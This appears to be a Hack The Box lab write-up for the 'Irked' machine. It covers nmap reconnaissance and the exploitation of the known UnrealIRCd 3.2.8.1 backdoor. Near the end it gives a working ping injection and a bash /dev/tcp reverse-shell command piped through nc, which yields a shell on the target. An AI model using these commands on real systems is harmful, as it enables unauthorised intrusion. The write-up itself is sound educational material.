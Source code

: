 # HTB - Irked
## OS - Linux

I started with an nmap scan of Irked (IP address: 10.10.10.117).

```
$nmap -sC -sV -oN irked.nmap 10.10.10.117
Nmap scan report for 10.10.10.117
Host is up (0.094s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp  open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          54652/tcp6  status
|   100024  1          55037/udp   status
|   100024  1          55516/udp6  status
|_  100024  1          58121/tcp   status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.71 seconds
```

When I browse to the web page, I see a jpg and "IRC is almost working!" message. nmap scan doesn't show anything about IRC, so doing another nmap scan. (judging by the name, Irked might be something to do with IRC.)

```
$nmap -vvv -p- 10.10.10.117
Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-20 17:25 PST
Initiating Ping Scan at 17:25
Scanning 10.10.10.117 [2 ports]
Completed Ping Scan at 17:25, 0.12s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:25
Completed Parallel DNS resolution of 1 host. at 17:25, 1.03s elapsed
DNS resolution of 1 IPs took 1.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 17:25
Scanning 10.10.10.117 [65535 ports]
Discovered open port 22/tcp on 10.10.10.117
Discovered open port 80/tcp on 10.10.10.117
Discovered open port 111/tcp on 10.10.10.117
Increasing send delay for 10.10.10.117 from 0 to 5 due to max_successful_tryno increase to 4
Connect Scan Timing: About 5.61% done; ETC: 17:34 (0:08:42 remaining)
Increasing send delay for 10.10.10.117 from 5 to 10 due to max_successful_tryno increase to 5
Connect Scan Timing: About 9.86% done; ETC: 17:36 (0:09:18 remaining)
Connect Scan Timing: About 27.44% done; ETC: 17:37 (0:08:46 remaining)
Connect Scan Timing: About 33.34% done; ETC: 17:37 (0:08:08 remaining)
Increasing send delay for 10.10.10.117 from 10 to 20 due to max_successful_tryno increase to 6
Connect Scan Timing: About 52.69% done; ETC: 17:41 (0:07:31 remaining)
Connect Scan Timing: About 60.17% done; ETC: 17:42 (0:06:42 remaining)
Discovered open port 58121/tcp on 10.10.10.117
Discovered open port 8067/tcp on 10.10.10.117
Increasing send delay for 10.10.10.117 from 20 to 40 due to max_successful_tryno increase to 7
Increasing send delay for 10.10.10.117 from 40 to 80 due to max_successful_tryno increase to 8
Discovered open port 6697/tcp on 10.10.10.117

```
Ran nmap scans on each port again. 58121 turned out to be RPC service. Port 8067 was running IRC.

```
Nmap scan report for 10.10.10.117
Host is up (0.096s latency).

PORT     STATE SERVICE VERSION
8067/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.28 seconds
```

Trying to nc resulted in a timeout.

```
$nc 10.10.10.117 8067
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
ERROR :Closing Link: [10.10.14.16] (Ping timeout)
```


After learning some IRC commands, we repeat this. This time I entered some pass, nick, and user commands.
```
PASS test123
NICK test123
USER test123 testing testing :test123
```
The output was:
```
$nc 10.10.10.117 8067
:irked.htb NOTICE AUTH :*** Looking up your hostname...
PASS test123
NICK test123
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
USER test123 testing testing :test123
:irked.htb 001 test123 :Welcome to the ROXnet IRC Network test123!test123@10.10.14.16
:irked.htb 002 test123 :Your host is irked.htb, running version Unreal3.2.8.1
:irked.htb 003 test123 :This server was created Mon May 14 2018 at 13:12:50 EDT
:irked.htb 004 test123 irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
:irked.htb 005 test123 UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 KICKLEN=307 AWAYLEN=307 MAXTARGETS=20 :are supported by this server
:irked.htb 005 test123 WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG NETWORK=ROXnet CASEMAPPING=ascii EXTBAN=~,cqnr ELIST=MNUCT STATUSMSG=~&@%+ :are supported by this server
:irked.htb 005 test123 EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP :are supported by this server
:irked.htb 251 test123 :There are 1 users and 0 invisible on 1 servers
:irked.htb 255 test123 :I have 1 clients and 0 servers
:irked.htb 265 test123 :Current Local Users: 1  Max: 1
:irked.htb 266 test123 :Current Global Users: 1  Max: 1
:irked.htb 422 test123 :MOTD File is missing
:test123 MODE test123 :+iwx
```

We got the banner from the server, with version number - running version Unreal3.2.8.1.

It has a backdoor command execution vuln that can be used here. Metasploit module is available too.

https://lwn.net/Articles/392201/ has details on the vulnerability. If a command starts with "AB", it gets passed to system().

To test this - start tcpdump filtering for icmp.
In another window, send this to irked.htb.

```
echo "AB; ping -c 3 10.10.14.16" | nc 10.10.10.117 8067
```
Once the connection times out, we see the pings.

```
$sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
17:54:20.465603 IP 10.10.10.117 > 10.10.14.16: ICMP echo request, id 1465, seq 1, length 64
17:54:20.465714 IP 10.10.14.16 > 10.10.10.117: ICMP echo reply, id 1465, seq 1, length 64
```
Now we try a shell.

Running a nc listener on port 4444, we run this command:

```
$echo "AB; bash -c 'bash -i >& /dev/tcp/10.10.14.16/4444 0>&1'" | nc 10.10.10.117 8067
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead

```
In our nc listener, we get a shell.

```
$nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.117] 36190
bash: cannot set terminal process group (640): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$
```


